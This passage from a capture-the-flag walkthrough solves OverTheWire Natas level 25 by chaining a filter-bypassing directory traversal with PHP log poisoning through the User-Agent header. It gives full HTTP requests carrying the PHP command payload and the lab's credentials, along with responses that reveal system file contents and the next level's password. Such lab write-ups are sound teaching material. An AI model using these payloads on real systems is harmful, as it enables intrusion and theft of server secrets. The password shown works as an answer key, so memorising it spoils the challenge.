 - Now, if we somehow add our PHP exploit code in the log file, upon inclusion in this PHP file the code will execute and give us the result we want: the password
- So, we can set our user agent as follows: `<?php echo passthru('cat /etc/natas_webpass/natas26'); ?>`
- For the directory traversal hit, we can use the payload that we formed earlier: `....//....//....//....//....//etc/hosts`
- Combining these, our HTTP request looks like this:
```http
GET /?lang=....//....//....//....//....//etc/hosts HTTP/1.1
Host: natas25.natas.labs.overthewire.org
User-Agent: <?php echo passthru('cat /etc/natas_webpass/natas26'); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic bmF0YXMyNTpja0VMS1VXWlVmcE92NnV4UzZNN2xYQnBCc3NKWjRXcw==
Connection: keep-alive
Referer: http://natas25.natas.labs.overthewire.org/
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Cookie: PHPSESSID=42ojeas62bj8g750hdpmquta16

```
- We get the expected response, containing the data from `/etc/hosts` file:
```text
127.0.0.1 localhost

# The following lines are desirable for IPv6 capable hosts
::1 ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
ff02::3 ip6-allhosts
127.0.0.1 natas natas.labs.overthewire.org

```
- Note the session id we sent in the request: `42ojeas62bj8g750hdpmquta16`. This will help us to include the log file
- Note that for the log file, we have the path defined in the `logRequest()` method, using which we can form our path as: `/var/www/natas/natas25/logs/natas25_42ojeas62bj8g750hdpmquta16.log`
- Now, we can send this in our GET request as follows:
```http
GET /?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_42ojeas62bj8g750hdpmquta16.log HTTP/1.1
Host: natas25.natas.labs.overthewire.org
User-Agent: <?php echo passthru('cat /etc/natas_webpass/natas26'); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic bmF0YXMyNTpja0VMS1VXWlVmcE92NnV4UzZNN2xYQnBCc3NKWjRXcw==
Connection: keep-alive
Referer: http://natas25.natas.labs.overthewire.org/
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Cookie: PHPSESSID=42ojeas62bj8g750hdpmquta16
```
- After firing the request, we get the following response (trimmed to the juicy part):
```log
[20.09.2024 15::17:39] cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE
 "Directory traversal attempt! fixing request."
[20.09.2024 15::25:14] cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE
 "Directory traversal attempt! fixing request."
```